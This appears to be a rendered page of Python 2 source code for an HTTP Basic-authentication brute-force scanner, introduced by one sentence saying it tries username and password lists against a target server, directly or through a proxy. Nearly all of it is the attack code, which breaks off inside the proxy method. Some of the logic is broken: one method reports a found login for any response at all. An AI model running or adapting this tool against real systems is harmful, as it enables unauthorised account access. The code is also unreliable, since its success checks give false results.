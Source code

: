 This Python script is designed to perform a **brute-force HTTP authentication scan** on a target web server to attempt login using a list of usernames and passwords. It tries both basic authentication and can also route through a proxy. 


```python

# -*- encoding: utf-8 -*-
#class for HttpScan connection

import socket
import urllib2
import httplib
import socket
import HTMLParser
import socket
import base64
import sys

class HTTPScan:
    
    def basic_auth(self, host, username, passwd, code=0):
        
        try:
            request = urllib2.Request(host)
            authTokenBase64 = base64.encodestring('%s:%s' % (username, passwd)).replace('\n', '')
            request.add_header("Authorization", "Basic %s" % authTokenBase64)
            request.add_header("Host", host)
            result = urllib2.urlopen(request)
            if result is not None:
                print 'Found %s:%s\n' %(username, passwd)
        except (urllib2.HTTPError,socket.gaierror, socket.error, IOError) as e:
            print e
            code = 2
        return code
    
    def basic_auth2(self, host, username, passwd, code=0):
            
            try:
                request = httplib.HTTP(host)
                authTokenBase64 = base64.encodestring('%s:%s' % (username, passwd)).replace('\n', '')
                request.putheader("Authorization", "Basic %s" % authTokenBase64)
                request.putheader("Host", host)
                request.endheaders()
                request.send("")
                statusCode,statusMsg,headers = request.reply()
                if statusCode is not None:
                    print 'Found %s:%s\n' %(username, passwd)
            except (urllib2.HTTPError,socket.gaierror, socket.error, IOError) as e:
                print e
                code = 2
            return code    
    
    def basic_auth_proxy(self, host, username, passwd, proxy_address, code=0):
        
            try:
                proxy = urllib2.ProxyHandler({'http': proxy_address})
                opener = urllib2.build_opener(proxy)
                urllib2.install_opener(opener)           
                request = urllib2.Request(host)
                
                authTokenBase64 = base64.encodestring('%s:%s' % (username, passwd))[:-1]
                request.add_header("Authorization", "Basic %s" % authTokenBase64)
                request.add_header("Host", host)
```